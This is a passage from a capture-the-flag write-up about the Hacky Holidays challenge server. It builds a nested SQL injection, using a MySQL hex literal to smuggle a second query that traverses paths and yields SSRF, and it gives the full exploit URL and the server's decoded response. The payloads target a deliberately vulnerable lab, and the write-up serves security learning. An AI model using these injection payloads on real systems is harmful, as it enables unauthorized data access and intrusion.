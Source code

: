 If my thoughts are correct, then we can inject SQLi inside of SQLi, to select **own** picture path:

- SQLi_2: `' and 1=0 union select 1,2,'our_path' -- .`
- SQLi_1: `' and 1=0 union select SQLi_2,2,3 -- .`

Then the second SQL (which one selects the photos) will be:

```sql
select * from photo
where album_id='' and 1=0 union select 1,2,'our_path' -- 
```

It is impossible to inject the second SQLi as a string, it must be MySQL *hexadecimal literal* string, like as `0xf01a`. Then the initial SQLi for the example above, will be:

```sql
' and 1=0 union select 0x2720616e6420313d3020756e696f6e2073656c65637420312c322c276f75725f7061746827202d2d20,2,3 -- 
```

Using the information, lets try to get content of the main app page: `/r3c0n_server_4fdk59`, for example. As was described above, the path in `image` looks like: `r3c0n_server_4fdk59/uploads/<picture file name>`, so to get the content of `/r3c0n_server_4fdk59`, the injection path must be `../../` .

1. SQLi_2 as a string: `' and 1=0 union select 1,2,'../../' -- .`
2. SQLi_2 in *hexadecimal literal* string format: `0x2720616e6420313d3020756e696f6e2073656c65637420312c322c272e2e2f2e2e2f27202d2d20`
3. SQLi_1: `' and 1=0 union select 0x2720616e6420313d3020756e696f6e2073656c65637420312c322c272e2e2f2e2e2f27202d2d20,2,3 -- `
4. Url: `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash='%20and%201=0%20union%20select%200x2720616e6420313d3020756e696f6e2073656c65637420312c322c272e2e2f2e2e2f27202d2d20,2,3%20--%20`

The server returns the album page with an unloaded image:

{F1138112}

```html
<img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC8uLlwvIiwiYXV0aCI6ImQyY2I0NDNlZmQxMDQyNDdkYjMzODU4NGY3YjI1MTk5In0=">
```

Decoded string for `data` (as mentioned above it's base64 encoded string) is JSON object `{"image":"r3c0n_server_4fdk59\/uploads\/..\/..\/","auth":"d2cb443efd104247db338584f7b25199"}`. Good, our injection works as expected. So we got SSRF and we can get content of some interesting pages on the server?

Let's open the url from image src:

```
Invalid content type detected
```

Hmm, we expected something different, didn't we? Let's try to get content of other existing pages: https://hackyholidays.h1ctf.com or https://hackyholidays.h1ctf.com/robots.txt. Still the same error! But https://hackyholidays.h1ctf.com/assets/images/grinch-networks.png returns the image. So there is some logic on the server, which validates the response `Content-Type` header, and if it's not equal `image/*`, returns the error. But what the response will be for the not existing page? https://hackyholidays.h1ctf.com/not-existing:
